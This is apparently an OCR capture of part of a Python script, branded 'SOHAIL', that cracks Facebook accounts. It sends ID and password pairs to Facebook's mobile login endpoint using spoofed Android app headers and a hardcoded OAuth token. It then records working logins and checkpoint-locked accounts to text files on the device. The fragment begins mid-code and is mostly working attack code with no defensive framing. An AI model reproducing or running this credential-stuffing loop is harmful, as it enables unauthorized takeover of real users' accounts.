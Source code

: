                                         'device':gtt,
                                        "device_id":"6e18861e-d578-4cfb-8728-528f1e4b90e7",
                                        "method":"auth.login",
                                        "fb_api_req_friendly_name": "authenticate",
                                        "fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler"}
                                head = {
                                        'content-type':'application/x-www-form-urlencoded',
                                        'x-fb-sim-hni':str(random.randint(2e4,4e4)),
                                        'x-fb-connection-type':'unknown',
                                        'Authorization':'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32',
                                        'User-Agent': 'Dalvik/2.1.0 Linux; U; Android 6.0.0; GT-I9300I Build/KTU84P) [FBAN/FB4A;FBAV/540.0.0.84.626;FBBV/169717250;FBDM/{density=4.0,width=1532,height=2560};FBLC/en_US;FBCR/Grameenphone;FBMF/samsung;FBBD/samsung;FBPN/com.facebook.katana;FBDV/GT-I9300I;FBSV/6.0.0;FBCA/armeabi-v7a:armeabi;]',
                                        'x-fb-net-hni':str(random.randint(2e4,4e4)),
                                        'x-fb-connection-bandwidth':str(random.randint(2e7,3e7)),
                                        'x-fb-connection-quality':'EXCELLENT',
                                        'x-fb-friendly-name':'authenticate',
                                        'accept-encoding':'gzip, deflate',
                                        'x-fb-http-engine':     'Liger'}
                                url = 'https://b-graph.facebook.com/auth/login?include_headers=false&decode_body_json=false&streamable_json_response=true'
                                po = requests.post(url,data=data,headers=head,allow_redirects=False).text
                                q = json.loads(po)
                                if 'session_key' in q:
                                        print(f'\r\r\033[1;32m [SOHAIL-OK] '+ids+' | '+pas+'\033[1;97m')
                                        open(f'/sdcard/SOHAIL-OK.txt','a').write(ids+'|'+pas+'\n')
                                        #cek_apk(session,coki)
                                        oks.append(ids)
                                        break
                                elif 'www.facebook.com' in q['error']['message']:
                                        if 'y' in pcp:
                                                print(f'\r\r\x1b[38;5;126m [SOHAIL-CP] '+ids+' | '+pas+'\033[1;97m')
                                                open(f'/sdcard/SOHAIL-CP.txt', 'a').write(ids+'|'+pas+'\n')
                                                cps.append(ids)
                                                break
                                        else:
                                                open(f'/sdcard/SOHAIL-CP.txt','a').write(ids+'|'+pas+'\n')
                                                break
                                else:
                                        continue
                        loop+=1
                except requests.exceptions.ConnectionError:
                        time.sleep(10)
                except Exception as e:
                        pass
		



SOHAIL()
